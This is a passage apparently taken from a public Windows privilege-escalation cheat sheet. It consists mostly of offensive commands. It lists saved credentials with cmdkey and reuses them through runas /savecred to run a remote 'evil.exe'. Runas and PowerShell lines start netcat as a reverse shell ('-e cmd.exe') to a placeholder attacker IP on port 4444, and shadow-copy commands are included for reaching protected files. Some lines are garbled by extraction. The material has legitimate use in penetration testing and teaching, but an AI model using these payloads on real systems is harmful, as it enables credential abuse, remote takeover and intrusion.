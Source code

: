Use the `cmdkey` to list the stored credentials on the machine.
cmdkey /list
Currently stored credentials:
Target: Domain:interactive=WORKGROUP\Administrator
Type: Domain Password
User: WORKGROUP\Administrator

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
Using `runas` with a provided set of credential.

C:\Windows\System32unas.exe  /env /noprofile /user:<username>  <password>  "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

$secpasswd  =  ConvertTo-SecureString  "<password>"  -AsPlainText -Force$mycreds  =  New-Object System.Management.Automation.PSCredential ("<user>",  $secpasswd)$computer  =  "<hostname>"[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe",  $mycreds.Username,  $mycreds.Password,  $computer)

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='71'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2299' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---abusing-shadow-copies)EoP - Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.

# List shadow copies using vssadmin (Needs Admnistrator Access)vssadmin list shadows # List shadow copies using diskshadowdiskshadow list shadows all # Make a symlink to the shadow copy and access itmklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='72'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2314' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---from-local-administrator-to-nt-system)EoP - From local administrator to NT SYSTEM
